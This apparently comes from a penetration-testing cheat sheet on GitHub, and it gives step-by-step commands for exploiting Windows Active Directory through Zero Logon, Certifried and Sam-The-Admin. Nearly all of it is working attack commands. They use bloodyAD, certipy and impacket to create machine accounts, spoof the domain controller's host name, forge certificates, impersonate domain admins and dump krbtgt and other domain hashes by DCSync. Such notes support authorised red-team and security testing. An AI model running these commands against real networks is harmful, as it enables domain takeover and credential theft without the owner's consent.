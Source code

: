 # Windows

## CVE-2020-1472 : Zero Logon
PoC based on this link : <https://github.com/dirkjanm/CVE-2020-1472>
```bash
python3 cve-2020-1472-exploit.py HOSTNAME IP
impacket-secretsdump 'HOSTNAME$@IP'
```

## CVE-2022-26923 : Certifried
More info in : <https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html>
By default, a user can create at least 10 computers. To verify this, check if ms-DS-MachineAccountQuota > 0 :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP getObjectAttributes 'DC=domain,DC=local' ms-DS-MachineAccountQuota
```
If it's okay, just add a computer with bloodyAD :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP addComputer COMPUTER_NAME 'COMPUTER_PASSWORD'
```
Then, set the dNSHostname attribute to match the domain controller dNSHostname attribute (for exemple DC.domain.local) :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP setAttribute 'CN=COMPUTER_NAME,CN=Computers,DC=domain,DC=local' dNSHostName '["DC.domain.local"]'
```
Use certipy to request a certificate for the computer, using default 'Machine' template & ADCS IP address. This will create a .pfx file, corresponding to the certificate issued by the CA :
```bash
certipy req 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD@ADCS_IP' -template Machine -dc-ip DC_IP -ca CA_NAME
```
Then, use certipy tool to get a TGT by using a Kerberos authentication (PKINIT), using the certificate :
```bash              
certipy auth -pfx ./DC.pfx -dc-ip 10.100.10.12
```
If it works, go to "HERE" section. Otherwise, use RBCD technique from bloodyAD. It will set up delegation rights :
```bash
openssl pkcs12 -in DC.pfx -out DC.pem -nodes
python3 bloodyAD.py -d domain.local  -c ":DC.pem" -u 'COMPUTER_NAME$' --host DC_IP setRbcd 'COMPUTER_NAME$' 'DC_NAME$'
```
Then, try to impersonate a domain admin using impacket :
```bash
getST.py -spn LDAP/DC.DOMAIN.LOCAL -impersonate ADMIN_NAME -dc-ip DC_IP 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD'
```
HERE - You'll get either the .ccache file (TGT) or the NT Hash. If you get the NT Hash, you know what to do next ;). It's linked to the DC computer account, so normally, you're admin. To use .ccache file :
```bash
cp XXXX.ccache /tmp/
export KRB5CCNAME=/tmp/XXXX.ccache
```
Finally, use impacket to perform a DCSync with the exported TGT :
```bash
impacket-secretsdump -user-status -just-dc-ntlm -just-dc-user krbtgt 'domain.local/XXXX@DC.domain.local' -k -no-pass -dc-ip DC_IP -target-ip IP_ADDRESS 
```

## CVE-2021-42278 & CVE-2021-42287 : Sam-The-Admin
Impersonate DA from standard domain user. Based on <https://github.com/WazeHell/sam-the-admin>
```bash
python3 sam_the_admin.py -domain-netbios NETBIOS_NAME -dc-ip IP_DC -shell 'DOMAIN/USERNAME:PASSWORD'
```
